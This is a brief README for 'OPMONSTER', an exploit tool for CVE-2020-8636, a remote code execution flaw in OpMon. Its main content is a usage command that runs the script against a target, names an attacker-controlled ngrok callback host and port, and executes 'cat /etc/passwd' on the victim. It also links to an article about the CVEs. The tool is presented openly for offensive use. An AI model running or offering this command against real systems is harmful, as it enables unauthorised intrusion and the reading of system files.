

# CVE-2020-8636 EXPLOIT
### OPMONSTER by @phor3nsic


  
  
 ```
 python3 opmonster.py https://vulnhost.com myhost.ngrok.io 80 "cat /etc/passwd"
 ```

### Remote code execution in Opmon

[More info](https://phor3nsic.gitbook.io/aboutme/articles/three-cves-on-opmon)


###### tags: `CVE-2020-8636` `exploit` `opmon` `RCE` `phor3nsic`
